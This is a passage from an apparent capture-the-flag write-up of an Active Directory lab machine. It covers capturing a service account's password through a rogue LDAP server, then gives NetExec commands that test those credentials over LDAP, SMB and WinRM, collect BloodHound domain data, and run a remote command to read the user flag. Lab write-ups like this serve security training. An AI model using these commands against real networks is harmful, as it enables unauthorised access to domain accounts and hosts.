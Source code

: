 <figure><img src="../../.gitbook/assets/return_nc.png" alt=""><figcaption><p>Figure 4: Setting up a malicious LDAP server.</p></figcaption></figure>

Testing the credentials with [NXC](../../tl-dr/active-directory/tools/netexec.md) look legit, and we can also see that `svc-printer` has also WinRM access (Figure 5).

{% code overflow="wrap" %}
```bash
# validating credentials using LDAP
nxc ldap 10.10.11.108 -u svc-printer -p svc-printer_pass
# validating credentials using SMB
nxc smb 10.10.11.108 -u svc-printer -p svc-printer_pass
# validating credentials using WinRM
nxc winrm 10.10.11.108 -u svc-printer -p svc-printer_pass
```
{% endcode %}

<figure><img src="../../.gitbook/assets/return_svc-printer_creds.png" alt=""><figcaption><p>Figure 5: Validating domain credentials.</p></figcaption></figure>

## Privilege Escalation

Checking for SMB shares returns nothing of interest; only the default shares are there. Since we have compromised a domain user, we can collect domain information via [BloodHound](../../tl-dr/active-directory/tools/hounds.md) and snatch the `user.txt` flag (Figure 6).

{% code overflow="wrap" %}
```bash
# collect domain information
nxc ldap 10.10.11.108 -u svc-printer -p svc-printer_pass --bloodhound -ns 10.10.11.108 -c Group,LocalAdmin,Session,Trusts,Default,DCOnly,DCOM,RDP,PSRemote,LoggedOn,Container,ObjectProps,ACL
# reading the user flag
nxc winrm 10.10.11.108 -u svc-printer -p svc-printer_pass -x 'type c:\users\svc-printer\desktop\user.txt'
```
{% endcode %}
